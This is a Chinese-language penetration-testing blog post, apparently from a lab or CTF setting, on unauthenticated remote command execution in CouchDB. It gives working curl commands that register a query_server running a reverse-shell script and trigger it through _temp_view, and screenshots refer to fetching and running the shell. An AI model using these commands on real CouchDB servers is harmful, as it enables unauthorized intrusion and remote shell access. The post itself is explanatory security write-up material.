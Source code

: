 ```yaml
---
layout:     post
title:      "Couchdb命令执行"
subtitle:   "一点点记录"
date:       2016-09-11
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - 数据库安全
---
```



## 背景介绍
 CouchDB是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 可以安装在大部分 POSIX 系统上，包括 Linux和 Mac OS X。

## 漏洞介绍
Couchdb默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

使用nmap扫描可发现couchdb的banner信息
![couchdb默认端口](https://urahara3389.github.io/img/Couchdb-RCE-nmap.png)

>执行命令需要使用admin权限，如果数据库存在未授权则可直接利用，若有账号认证则需要想办法获取admin的密码，当然可通过burpsuit去爆破/_utils/，也可以通过metasploit中的

CouchDB提供了一个可视化界面工具，在浏览器中运行“http://127.0.0.1:5984/_utils/”，即可见到如下所示的界面。
![账号认证](https://urahara3389.github.io/img/Couchdb-RCE-admin.png)

## 漏洞利用
这里举例有账号认证的情况，我们需要使用admin身份登录然后获取cookie，再使用curl命令与api进行交互，实现数据库操作
![获取Cookie](https://urahara3389.github.io/img/Couchdb-RCE-cookie.png)

>远程命令执行示例
1. 新增query_server配置，写入要执行的命令；
2. 新建一个临时库和临时表，插入一条记录；
3. 调用query_server处理数据

```
curl -X PUT 'http://192.168.199.181:5984/_config/query_servers/cmd' -d '"python /tmp/back.py"'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"

curl -X PUT 'http://192.168.199.181:5984/teeest'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X PUT 'http://192.168.199.181:5984/teeest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"```

curl -X POST 'http://192.168.199.181:5984/teeest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'  -H "Cookie: AuthSession=YWRtaW46NTc5QTRGMjc6VKTKwNEud9fFchzR-HtOrjM5Cg4"
```

远程下载反弹脚本
![写入命令](https://urahara3389.github.io/img/Couchdb-RCE-command.png)
成功监听到下载请求
![监听下载](https://urahara3389.github.io/img/Couchdb-RCE-download.png)
添加执行权限
![添加执行权限](https://urahara3389.github.io/img/Couchdb-RCE-chmod.png)
执行反弹脚本
![执行反弹](https://urahara3389.github.io/img/Couchdb-RCE-backshell.png)
getshell，读取flag
![成功](https://urahara3389.github.io/img/Couchdb-RCE-over.png)


### 参考
[CouchDB未授权访问导致执行任意系统命令漏洞](https://www.secpulse.com/archives/45917.html)

[CouchDB未授权访问漏洞导致系统命令执行](http://blog.nsfocus.net/couchdb-unauthorized-access-vulnerability-system-command/)